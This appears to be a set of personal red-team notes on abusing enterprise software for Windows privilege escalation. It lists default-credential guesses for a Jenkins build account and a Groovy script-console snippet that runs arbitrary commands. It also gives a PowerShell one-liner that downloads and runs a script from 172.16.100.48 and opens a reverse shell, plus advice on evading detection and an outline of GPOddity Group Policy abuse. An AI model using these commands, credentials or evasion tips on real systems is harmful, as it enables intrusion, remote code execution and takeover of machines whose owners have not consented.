 Features abuse are awesome as there are seldom patches for them and
they are not the focus of security teams!

 One of my favourite features abuse is targeting enterprise applications
which are not built keeping security in mind.

On Windows, many enterprise applications need either Administrative
privileges or SYSTEM privileges making them a great avenue for privilege
escalation.

### Jenkins
If you you see a user like `builduser` in the user list try the following credentials
```
    builduser: <null>
    builduser:builduser
    builduser:resudilub
    builduser:resudilub!


```

With Jenkins Admin creds you can go to `/script` and run the following
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

**No Admin creds, but can add or edit build steps in the build configuration**.
	1. Project0 (or any)
	2. Configure
	3. Add Build Step
		1. Execute Windows Batch Command

Add a "Execute Windows Batch command" build step and catch a reverse shell
```powershell
powershell.exe iex (iwr -UseBasicParsing http://172.16.100.48/Invoke-PowerShellTcp.ps1);power -Reverse -IPAddress 172.16.100.48 -Port 443
```

1. Create a local firewall rule to allow the hosting of a webserver
	1. Or turn it off
2. Host the web server using HFS or python

**In real redteam engagements don't drop a reverse shell or even the stage 1 payload. Start off with a stage zero payload that beacons and quietly enumerates to see if the target is heavily protected**


> [!NOTE] **IMPORTANT**
> `whoami` and `hostname` is very noisy
> use `$env:Username` and `ls env:` instead

One way to protect an enterprise application is to expose it to the internet via a Azure Proxy, make everyone authenticate using Entra ID and use a whitelist for people allowed to use it

### GPO Abuse - GPOddity
A GPO with overly permissive ACL can be abused for multiple attacks.

GPOddity combines `NTLM` relaying and modification of Group Policy
Container. By relaying credentials of a user who has `WriteDACL` on GPO, we can
modify the path (`gPCFileSysPath`) of the group policy template (default
is `SYSVOL`).

This enables loading of a malicious template from a location that we
control.

![[Pasted image 20250505062951.png]]